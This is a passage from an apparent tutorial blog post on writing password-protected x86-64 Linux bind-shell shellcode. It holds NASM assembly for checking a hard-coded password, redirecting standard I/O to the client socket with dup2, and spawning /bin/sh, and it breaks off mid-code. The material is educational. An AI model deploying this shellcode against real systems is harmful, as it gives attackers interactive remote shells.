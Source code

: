     syscall</code></pre><figcaption>Checking the password sent by the client</figcaption></figure><p>If the flag <code>ZF</code> isn't set after the <code>XOR</code> operation, it means the password sent by the client is different from the hard-coded password (<code>rbct!22</code><em> </em>followed by a newline).</p><p>In that case, the shellcode enters the <code>ExitWrongPassword</code> routine, ending the execution of the shellcode.</p><h3 id="io-redirection">I/O Redirection</h3><p>Now you may ask: <em>why the need for I/O redirection? Can't we just spawn a shell and be done with it?</em></p><p>Well, the answer is <strong>no</strong>. If we were to spawn a shell right away, the input and the output of the shell would be bound to the local system.</p><p>This means that the attacker wouldn't be able to execute commands, as the input of the client socket won't be redirected to the system shell. </p><p>Similarly, the attacker wouldn't be able to receive the output of the commands executed from the shell since the output is not redirected to the client socket.</p><p>For this reason, we're going to redirect <em>input</em>, <em>output</em>, and <em>error</em>, in order to provide the attacker an interactive shell.</p><p>To do this, we can take advantage of the syscall <code>dup2</code>:</p><figure class="kg-card kg-bookmark-card"><a class="kg-bookmark-container" href="https://man7.org/linux/man-pages/man2/dup.2.html"><div class="kg-bookmark-content"><div class="kg-bookmark-title">dup(2) - Linux manual page</div><div class="kg-bookmark-description"></div><div class="kg-bookmark-metadata"><span class="kg-bookmark-author">Linux manual page</span></div></div><div class="kg-bookmark-thumbnail"><img src="https://man7.org/tlpi/cover/TLPI-front-cover-vsmall.png" alt=""></div></a></figure><p>In particular, using this syscall it's possible to redirect <code>stdin</code>, <code>stdout</code>, and <code>stderr</code> of the program running the shellcode towards the file descriptor of the client socket.</p><p>Follows the assembly code for this routine:</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">IO_Redirection:

    xor ecx, ecx
    mul rcx
    add ecx, 2

DuplicateFileDescriptor:

    ; 1st argument of dup2(), file descriptor of the client socket, should be unchanged (RDI)
    ; 2nd argument of dup2(): file descriptor to redirect: stdin/stdout/stderr
    ; in this case the value is stored inside RCX -&gt; 2,1,0
    push rcx
    
    ; syscall: dup2()
    push rdx
    pop rax
    add eax, 33

    ; 2nd argument of dup2(): file descriptor to redirect
    mov rsi, rcx

    ; call dup2()
    syscall

    pop rcx
    dec rcx
    jns DuplicateFileDescriptor</code></pre><figcaption>Redirection of input, output, and errors to the client socket</figcaption></figure><h3 id="spawning-a-shell">Spawning a Shell</h3><p>The final step consists of calling the syscall <code>system</code>, in order to execute a shell e.g., <code>/bin/sh</code> or <code>/bin/bash</code>.</p><p>Once the shellcode spawns the shell, thanks to the previous redirection of <em>stdin</em>, <em>stdout</em>, and <em>stderr</em>, the attacker will have an interactive prompt, as if they were in front of the terminal.</p><p>It means the client will be able to execute system commands, read output, and possible error messages.</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">SpawnSystemShell:

    ; clear RAX register (zero-sign extended)
    xor eax, eax

    ; NULL terminator for the string below
    push rax

    ; 3rd argument of execve: envp (in this case a pointer to NULL)
    mov rdx, rsp

    ; string "/bin//sh"
    mov rbx, 0x68732f2f6e69622f
    push rbx

    ; 1st argument of execve: executable to run
    mov rdi, rsp

    ; 2nd argument of execve: array of arguments passed to the executable
    push rax

    push rdi
    mov rsi, rsp
